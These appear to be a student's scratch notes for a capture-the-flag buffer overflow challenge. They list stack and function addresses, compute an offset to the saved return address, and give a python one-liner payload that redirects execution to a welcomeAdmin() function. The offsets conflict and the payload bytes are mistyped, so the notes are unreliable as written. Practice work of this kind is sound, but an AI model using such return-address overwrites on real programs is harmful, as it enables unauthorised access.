

gets = 0xf7de0670
Instruction of isAdmin = 0x080492bc
&name = 0xffffc56c

This is THE FUNC WE WANT to overwrite!!!
0x08049299

Register:
$esp = 0xffffc560

previous value of $esp = 0x08049294
get to print func

Main stack function:
$esp = 0xffffc590
just after the jump to printName = 0x08049299

address of welcomeAdmin() = 0x0804934a

TOOD: Need to manipulate the return value to jump to welcomeAdmin

0xffffc58c - 0xffffc56c = 32 bytes needed

python3 "import sys; sys.stdout.buffer.write(28 * b'C' + b'\x4a\x93\x04\08')" > ./challenge
